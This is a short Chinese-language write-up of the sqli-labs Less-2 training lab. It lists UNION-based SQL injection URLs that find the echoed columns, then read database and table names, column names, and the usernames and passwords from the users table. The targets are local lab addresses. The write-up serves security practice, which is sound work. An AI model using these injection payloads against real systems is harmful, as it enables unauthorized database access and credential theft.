 ```yaml
---
title: Less  - 02
date: 2023-03-13T12:28:50Z
lastmod: 2023-03-13T12:48:40Z
---
```


# Less  - 02

---

# 通关教程

---

## 1、判断闭合

---

使用的payload如下

```http
http://127.0.0.1/sql1/Less-2/?id=1
http://127.0.0.1/sql1/Less-2/?id=1'
http://127.0.0.1/sql1/Less-2/?id=1--+
```

​![image](assets/image-20230313123512-19s5uek.png)​

​![image](assets/image-20230313123542-t0gjzhn.png)​

## 2、查看回显位置

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,2,3--+
```

​![image](assets/image-20230313123732-53rzzxr.png)​

## 3、查看当前数据库和用户

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,database(),user()--+
```

​![image](assets/image-20230313123850-h15hmkq.png)​

## 4、查看数据表

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),user()--+
```

​![image](assets/image-20230313124202-b42brd5.png)​

## 5、查看数据表的字段

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),user()--+
```

​![image](assets/image-20230313124548-nooz0o5.png)​

## 6、查看字段值

---

```http
http://192.168.225.132/sqli-labs/Less-2/?id=0 union select 1,(select group_concat(username,password) from security.users),user()--+
```

​![image](assets/image-20230313124830-rj98ohm.png)​

‍
